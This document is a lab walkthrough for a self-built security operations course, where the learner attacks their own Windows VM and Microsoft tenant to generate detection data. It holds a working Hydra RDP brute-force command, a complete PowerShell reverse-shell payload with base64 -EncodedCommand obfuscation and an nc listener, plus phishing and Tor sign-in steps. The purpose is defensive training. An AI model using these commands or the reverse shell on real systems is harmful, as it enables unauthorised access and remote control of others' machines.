


# Project ATLAS — Day 3 Walkthrough: Attack Simulation

Goal for today: actually run the kill chain — recon, brute force, encoded PowerShell + reverse shell, a phishing campaign, and a Tor sign-in. This is the day that generates the data Day 2's rules are waiting for. ~2.5–3 hours. Take screenshots as you go (see the note at the end) — you'll need them Day 5.

---

## Part A — Prep: enable RDP and create a disposable "target" account (15 min)

Don't brute-force your real admin account. Create a throwaway local account on the Windows VM whose only purpose is to be cracked.

1. In the Windows VM: **Settings → Accounts → Other users → Add account → "I don't have this person's sign-in information" → "Add a user without a Microsoft account."**
2. Username: `soclab-test`. Password: pick something deliberately weak that you'll put in your wordlist (e.g. `Password1`) — but don't make it the very first guess; bury it a few lines into the wordlist so Hydra has to work for it (see Part C).
3. **Settings → System → Remote Desktop → toggle On → Confirm.** (Works because we installed Windows 11 **Pro** — Home doesn't support RDP as a host.)
4. Note: Network Level Authentication (NLA) is on by default. Modern Hydra builds handle NLA fine. If Hydra can't complete the RDP handshake later, the fallback is **System Properties → Remote tab → uncheck "Allow connections only from computers running Remote Desktop with Network Level Authentication"** — try without this first.
5. Get the Windows VM's IP: open a command prompt → `ipconfig` → note the IPv4 address on the `SOC-Lab` adapter.

---

## Part B — Recon from Kali (10 min)

1. On Kali: `sudo nmap -sV -p- <Windows-VM-IP>`
2. Confirm `3389/tcp open ms-wbt-server` appears in the output (RDP). A full port sweep (`-p-`) takes a few minutes — that's normal.
3. Screenshot the result. This is your evidence for **T1595 – Active Scanning**.

---

## Part C — Hydra brute force against RDP (15–20 min)

1. Build a small wordlist on Kali, e.g. `/root/passwords.txt`, with 8–10 entries including the password you set in Part A somewhere in the middle (not line 1):
   ```
   123456
   admin123
   Welcome1
   Password1
   Summer2026
   qwerty123
   ```
2. Run: `hydra -l soclab-test -P /root/passwords.txt -t 1 rdp://<Windows-VM-IP>`
   - `-t 1` keeps it to one thread at a time — RDP brute forcing is slow and prone to false handshake failures under parallel load; single-threaded is more reliable for this module.
3. Wait for Hydra to report a valid password found (`[3389][rdp] host: ... login: soclab-test password: Password1`).
4. Screenshot the success line. This is your evidence for **T1110.001 – Brute Force: Password Guessing**, and it's also exactly what Day 2's rule 4.1 is watching for (5+ `LogonFailed` events on the same device/IP within 5 minutes, before the eventual success).

---

## Part D — Encoded PowerShell + reverse shell (20–25 min)

1. **Start a listener on Kali first:** `nc -lvnp 4444`
2. **RDP into the Windows VM** as `soclab-test` using the cracked password (simulating the attacker now having interactive access): `xfreerdp /u:soclab-test /p:Password1 /v:<Windows-VM-IP>` (or any RDP client you have).
3. Inside that RDP session, open PowerShell and run this reverse-shell payload (a standard TCP-client pattern — nothing exotic, just routed through PowerShell):
   ```powershell
   $client = New-Object System.Net.Sockets.TCPClient("<Kali-IP>",4444)
   $stream = $client.GetStream()
   [byte[]]$bytes = 0..65535|%{0}
   while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
     $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
     $sendback = (iex $data 2>&1 | Out-String)
     $sendback2 = $sendback + "PS " + (pwd).Path + "> "
     $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
     $stream.Write($sendbyte,0,$sendbyte.Length)
     $stream.Flush()
   }
   $client.Close()
   ```
4. Now the obfuscation step. On Kali, base64-encode it as **UTF-16LE** (PowerShell's `-EncodedCommand` expects UTF-16LE, not plain UTF-8 — this trips people up):
   ```bash
   echo -n '<paste the one-line version of the script above, semicolon-separated>' | iconv -t utf-16le | base64 -w0
   ```
5. Copy the resulting base64 string, then run it inside the Windows PowerShell session:
   ```
   powershell.exe -enc <base64string>
   ```
6. Check the Kali listener — you should see a connection land and a `PS C:\Users\soclab-test>` prompt appear. Try a command like `whoami` through it to confirm it's interactive.
7. Screenshot both windows side by side (Kali listener with the shell prompt, and the Windows PowerShell window that launched it). This is your evidence for **T1059.001 + T1027** (the execution) and **T1071** (the callback itself, once connected).

---

## Part E — Phishing simulation via Defender for Office 365 (15 min)

1. **security.microsoft.com → Email & collaboration → Attack simulation training → Simulations → "+ Launch a simulation."**
2. Technique: **Credential Harvest.**
3. Name it: `ATLAS Phishing Simulation`.
4. Payload: pick a built-in payload (any "account verification"/"password reset" themed one is fine) or create a simple custom one.
5. Target users: you can only simulate against mailboxes in your own tenant — add your own test mailbox (or the disposable test account if it has a mailbox).
6. Login page: use the default built-in page.
7. Training: select **"No training"** to skip assigning follow-up training content — not needed for this lab.
8. Launch.
9. Go to the target mailbox, find the simulated email, click the link, and enter any dummy username/password at the login page. Microsoft discards whatever you type — only the click/credential-submission event is recorded.
10. This is your evidence for **T1566.002 – Phishing: Spearphishing Link**. Check back in **Attack simulation training → Simulations → [your simulation] → Reports** later for the compromise/click report.

---

## Part F — Tor sign-in to trigger a risk detection (15 min)

If you haven't already, create a disposable Entra test user dedicated to this step — don't use your real admin account over Tor.

1. **Microsoft Entra admin center (entra.microsoft.com) → Identity → Users → New user → Create new user.** Username e.g. `soc-test-user@<yourtenant>.onmicrosoft.com`, no admin roles.
2. Assign your Entra ID P2 license to this user (Identity Protection's full risk detection and risk-based policies need P2 on the affected account — this is the same P2 license from your trial).

   

3. On Kali, open **Tor Browser** → go to `https://login.microsoftonline.com` → sign in as the test user.
4. Tor Browser will trigger a Microsoft MFA / risk prompt during the sign-in flow — this is Entra ID Protection acting in real time.

   

   Tor exit nodes are commonly flagged as anonymous proxies, so Entra ID Protection should raise an **"anonymous IP address"** risk detection. It isn't always instant — check back within the hour. If the detection that fires is instead something like "unfamiliar sign-in properties" or "atypical travel" rather than literally "anonymous IP," that's still a legitimate result (different detection logic catching the same underlying anomaly) — note whichever one actually fires.
5. Check **Entra admin center → Protection → Identity Protection → Risky sign-ins** and **Risky users** to confirm it landed.
6. Screenshot the risk detection detail. This is your evidence for **T1078.004 + T1090.003**.

---

## A note on screenshots

Today generates most of the evidence your eventual GitHub repo needs. Create a `screenshots/` folder now (on your Mac, not in a VM) and save as you go — Nmap output, Hydra success, both reverse-shell windows, the simulated phishing email + click report, and the Tor risk detection. Scrambling to recreate these on Day 5 means re-running attacks you've already cleaned up.

---

## End-of-day checklist

- Nmap scan confirms RDP open, screenshot saved
- Hydra cracked the `soclab-test` password, screenshot saved
- Encoded PowerShell reverse shell connected back to Kali, both windows screenshotted
- Phishing simulation launched, clicked, and (eventually) reported on
- Tor sign-in completed, risk detection appearing in Identity Protection

Tomorrow (Day 4) you switch from attacker hat to analyst hat — triaging everything you just generated, containing the device, and remediating the risky user. If Hydra won't complete the handshake, the reverse shell won't connect, or the Tor sign-in doesn't raise a risk after an hour, tell me exactly what you're seeing and we'll troubleshoot before moving on.
